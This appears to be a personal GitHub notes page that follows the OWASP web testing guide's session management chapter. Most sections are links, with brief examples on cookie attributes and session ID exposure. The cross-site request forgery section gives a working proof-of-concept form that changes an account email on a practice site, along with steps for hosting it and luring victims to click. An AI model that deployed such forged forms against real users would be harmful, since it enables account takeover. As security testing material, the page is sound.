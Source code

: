 # 1 [Testing for Session Management Schema](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/01-Testing_for_Session_Management_Schema.md)

# 2 [Testing for Cookies Attributes](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/02-Testing_for_Cookies_Attributes.md)

```http
Set-Cookie: __Host-SID=<session token>; path=/; Secure; HttpOnly; SameSite=Strict.
```

### Example 
Missing cookie attribute (Httponly,Secure,Samsite)
![cookie](./img/cookie.png)


# 3 [Testing for Session Fixation](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/03-Testing_for_Session_Fixation.md)

# 4 [Testing for Exposed Session Variables](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/04-Testing_for_Exposed_Session_Variables.md)
```http
GET requests should not be used, as the Session ID may be exposed in Proxy or Firewall logs
```
# 5 [Testing for Cross Site Request Forgery](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery.md)
Step 1:
Create an [HTML page](./Csrf_poc.html) similar to that shown below
```html
<html>
<form enctype="application/x-www-form-urlencoded" method="POST" action="https://thisislegal.com/user/account">
    <table>
        <tr>
            <td>account_email</td>
            <td><input type="text" value="hauvan1416@gmail.com" name="account_email"></td>
        </tr>
        <tr>
            <td>accountSubmit</td>
            <td><input type="text" value="Update" name="accountSubmit"></td>
        </tr>
    </table><input type="submit" value="https://thisislegal.com/user/account">
</form>

</html>
```
Step 2: Host the HTML on a malicious or third-party site
Step 3:Send the link for the page to the victim(s) and induce them to click it.

**Before submit**

![csrf1](./img/csrf1.png)

**After submit**

![csrf2](./img/csrf2.png)

# 6 [Testing for Logout Functionality](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/06-Testing_for_Logout_Functionality.md)

# 7 [Testing Session Timeout](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/07-Testing_Session_Timeout.md)


# 8 [Testing for Session Puzzling](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/08-Testing_for_Session_Puzzling.md)

# 9 [Testing for Session Hijacking](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/09-Testing_for_Session_Hijacking.md)


